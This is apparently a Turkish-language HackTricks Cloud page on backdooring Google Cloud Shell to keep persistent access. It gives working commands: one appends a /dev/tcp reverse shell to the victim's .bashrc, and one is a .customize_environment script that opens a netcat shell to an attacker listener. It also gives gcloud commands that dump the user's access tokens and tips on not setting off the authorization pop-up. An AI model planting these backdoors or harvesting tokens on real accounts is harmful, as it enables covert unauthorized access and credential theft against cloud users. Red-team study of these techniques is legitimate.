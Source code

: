 # GCP - Cloud Shell Kalıcılığı

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> ile sıfırdan kahramana kadar AWS hacklemeyi öğrenin!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'da **takip edin**.
* **Hacking püf noktalarınızı paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)'a katkıda bulunun.

</details>

## Cloud Shell

Daha fazla bilgi için kontrol edin:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Kalıcı Arka Kapı

[**Google Cloud Shell**](https://cloud.google.com/shell/), tarayıcınızdan doğrudan bulut kaynaklarınıza komut satırı erişimi sağlar ve herhangi bir ek maliyet olmadan.

Google'ın Cloud Shell'ine **web konsolundan** veya **`gcloud cloud-shell ssh`** komutunu çalıştırarak erişebilirsiniz.

Bu konsol, saldırganlar için bazı ilginç yeteneklere sahiptir:

1. **Google Cloud'a erişimi olan herhangi bir Google kullanıcısı**, tam yetkilendirilmiş bir Cloud Shell örneğine erişebilir (Hizmet Hesapları, org'un Sahipleri bile olabilir).
2. Söz konusu örnek, **en az 120 gün boyunca ana dizinini koruyacaktır** eğer hiçbir etkinlik olmazsa.
3. Bu örneğin etkinliğini izlemek için bir organizasyonun **yetenekleri yoktur**.

Bu temelde, bir saldırgan kullanıcının ana dizinine bir arka kapı yerleştirebilir ve kullanıcı en az 120 günde bir GC Shell'e bağlandığı sürece arka kapı hayatta kalacak ve saldırgan her çalıştığında bir kabuk alacaktır sadece şunu yaparak:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Ev dizininde varsa **`.customize_environment`** adında başka bir dosya bulunmaktadır ve bu dosya, kullanıcının **bulut kabuğuna** her eriştiğinde **çalıştırılacaktır** (önceki teknikte olduğu gibi). Kullanıcının "sık sık" bulut kabuğunu kullandığı sürece kalıcılığı sürdürmek için önceki arka kapıyı veya aşağıdakine benzer birini ekleyin:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
**Önemli Not:** İlk kez kimlik doğrulaması gerektiren bir işlem gerçekleştirildiğinde, kullanıcının tarayıcısında bir yetkilendirme penceresi belirir. Bu pencerenin kabul edilmesi gerekmektedir. Beklenmeyen bir pencere belirirse, şüphe uyandırabilir ve kullanılan kalıcılık yöntemini tehlikeye atabilir.
{% endhint %}

Bu, bulut kabuğundan (`cloud shell`) (saldırgan olarak) `gcloud projects list` komutunu çalıştırdığınızda tarayıcının kullanıcı oturumunda görünen pop-up'tır:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ancak, kullanıcı bulut kabuğunu aktif olarak kullandıysa, pop-up belirmeyecek ve kullanıcının **token'larını toplayabilirsiniz**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH bağlantısının nasıl kurulduğu

Temel olarak, bu 3 API çağrısı kullanılır:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (yerel olarak oluşturduğunuz genel anahtarını eklemenizi sağlar)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (örneği başlatmanızı sağlar)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (Google Cloud Shell'in IP'sini size söyler)

Ancak daha fazla bilgiyi [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) adresinde bulabilirsiniz.

## Referanslar

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

